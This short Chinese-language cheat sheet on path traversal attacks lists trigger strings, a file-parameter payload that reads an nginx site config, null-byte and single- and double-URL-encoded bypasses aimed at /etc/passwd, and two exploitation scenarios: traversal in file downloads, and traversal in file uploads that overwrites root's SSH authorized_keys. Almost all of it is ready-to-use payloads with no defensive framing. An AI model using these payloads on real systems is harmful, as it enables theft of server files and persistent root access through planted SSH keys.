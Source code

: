 ## **目录穿越，各种触发格式**
```
../
/../
/static../
/admin/admin.php?file=..././..././..././..././/etc/nginx/sites-enabled/site.conf
/.%00.%2F
包含 %00，这在文件路径中是不合法的。在大多数操作系统中，
空字符（null byte）用于表示字符串的结束，
如果这个字符串被错误地解释为文件路径，它实际上可能不会形成一个有效的路径。


url编码绕过
.   =>  %2e
/   =>  %2f
% => %25  (双重URL编码)

..%2f..%2f..%2fetc/passwd
..%252f..%252f..%252fetc/passwd  
```

^
## **目录穿越利用场景**
文件上传目录穿越，穿越覆盖ssh公钥/root/.ssh/authorized_keys。
文件下载目录穿越。